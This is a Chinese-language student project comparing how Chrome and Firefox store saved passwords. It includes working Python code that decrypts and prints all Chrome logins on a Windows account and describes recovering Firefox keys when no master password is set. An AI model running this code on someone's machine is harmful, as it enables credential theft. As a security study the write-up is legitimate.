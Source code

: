 ### *Project17：比较Firefox和Chrome的记住密码插件的实现区别

####  Chrome记住密码实现

在windows系统中，Chrome中保存的密码先被二次加密，然后被保存在SQLite数据库文件中，位置如下：
> AppData\Local\Google\Chrome\User Data\ Local State

使用工具SQLiteStudio读取数据库文件：

![](https://img1.imgtp.com/2023/07/13/sKf7doz2.png)

可进一步查看加密后的密码16进制：

![](https://img1.imgtp.com/2023/07/13/QRDK7YD0.png)

编写脚本将此数据导出：

```python
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect(getenv("LOCALAPPDATA") + r"\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    print (binascii.b2a_hex(result[2]))
```



参考Chromium开源代码，找到Chrome做二次加密的方法： 通过Windows API CryptProtectData()实现。

参考https://msdn.microsoft.com/en-us/library/windows/desktop/aa380261(v=vs.85).aspx获得关键信息：

**对应解密函数为CryptUnprotectData**

参考地址：https://msdn.microsoft.com/en-us/library/windows/desktop/aa380882(v=vs.85).aspx获得信息

**只有与加密数据的用户具有相同登录凭据的用户才能解密数据**

也就是说，只能在当前用户的凭据下解密数据，即Chrome使用windows账户密钥去加密chrome口令并存储在本地，所以只要登录了windows账户即可通过解密获取Chrome保存的各种口令。

通过查阅资料可知chrome将用户密钥存储在：

> AppData\Local\Google\Chrome\User Data\ Local State

加密密钥是通过 Base64 编码进行存储的,通过访问Local State文件并进行解密即可获得密钥：

```python
local_state = os.environ['LOCALAPPDATA'] + r'\Google\Chrome\User Data\Local State'
def getkey():
    with open(local_state, 'r', encoding='utf-8') as f:
        base64_encrypted_key = json.load(f)['os_crypt']['encrypted_key']
    encrypted_key = base64.b64decode(base64_encrypted_key)
    key= win32crypt.CryptUnprotectData(encrypted_key[5:], None, None, None, 0)[1]
    return key
```

对文本进行解密：

```python
def decrypt(key, text, salt=None):
    nonce, cipher_bytes = text[3:15], text[15:]
    aes_gcm = AESGCM(key)
    return aes_gcm.decrypt(nonce, cipher_bytes, salt).decode('utf-8')
```

获取账户和口令：

```python
def getpassword(key):
    conn = sqlite3.connect(getenv("LOCALAPPDATA") + r"\Google\Chrome\User Data\Default\Login Data")
    cursor = conn.cursor()
    cursor.execute('SELECT action_url, username_value, password_value FROM logins')
    for result in cursor.fetchall():
        # print (binascii.b2a_hex(result[2]))
        print("账号：",result[1])
        password = decrypt(key, result[2])
        print("密码：",password)
```

![](https://img1.imgtp.com/2023/07/13/q12B9pRc.png)

#### FireFox记住密码

为满足开发者创建满足各种安全标准的应用程序，Mozilla开发了一个叫做“Network Security Services”,或叫NSS的开源库。Firefox使用其中一个叫做”Security Decoder Ring”，或叫SDR的API来帮助实现账号证书的加密和解密函数。firefox使用它完成加密:

当一个Firefox配置文件被首次创建时，一个叫做SDR的随机key和一个Salt(译者注：Salt，在密码学中，是指通过在密码任意固定位置插入特定的字符串，让散列后的结果和使用原始密码的散列结果不相符，这种过程称之为“加盐”)就会被创建并存储在一个名为“key3.db”的文件中。利用这个key和盐，使用3DES加密算法来加密用户名和密码。密文是Base64编码的，并存储在一个叫做signons.sqlite的sqlite数据库中。Signons.sqlite和key3.db文件均位于%APPDATA%\Mozilla\Firefox\Profiles\[random_profile]目录。

所以我们要做的就是得到SDR密钥。正如此处解释的，这个key被保存在一个叫PCKS#11软件“令牌”的容器中。该令牌被封装进入内部编号为PKCS#11的“槽位”中。因此需要访问该槽位来破译账户证书。

还有一个问题，这个SDR也是用3DES(DES-EDE-CBC)算法加密的。解密密钥是Mozilla叫做“主密码”的hash值，以及一个位于key3.db文件中对应的叫做“全局盐”的值。

Firefox用户可以在浏览器的设置中设定主密码，但关键是好多用户不知道这个特性。正如我们看到的，用户整个账号证书的完整性链条依赖于安全设置中选择的密码，它是攻击者唯一不知道的值。如果用户使用一个强健的主密码，那么攻击者想要恢复存储的证书是不太可能的。

那么——如果用户没有设置主密码，空密码就会被使用。这意味着攻击者可以提取全局盐，获得它与空密码做hash运算结果，然后使用该结果破译SDR密钥。再用破译的SDR密钥危害用户证书。

该过程看起来就是这样：

![](https://image.woshipm.com/wp-files/2013/07/2f5442265b1f3d8c4ef0a71f1c51d9c1.jpg)

负责证书解密的主要函数是PK11SDR_Decrypt。此处不再展示整个函数，仅分别列出如下被调用的函数：

```python
PK11_GetInternalKeySlot() //得到内部key槽

PK11_Authenticate() //使用主密码对slot鉴权

PK11_FindFixedKey() //从slot中获得SDR密钥

Pk11_Decrypt() //使用SDR密钥破译Base64编码的数据
```

至于破译密码的示例代码，过程有点复杂，此处就不再累述了。在github上可以找到相关开源项目

> https://github.com/lclevy/firepwd/blob/master/firepwd.py

后经查找相关资料，上述算法由于3DES的安全性问题被淘汰，更新后的火狐浏览器使用了一个更加安全的方式：openpw
#### 比较

相比于chrome浏览器，firefox记住密码功能实现更复杂，安全性更高

#### 参考：https://www.woshipm.com/pmd/35985.html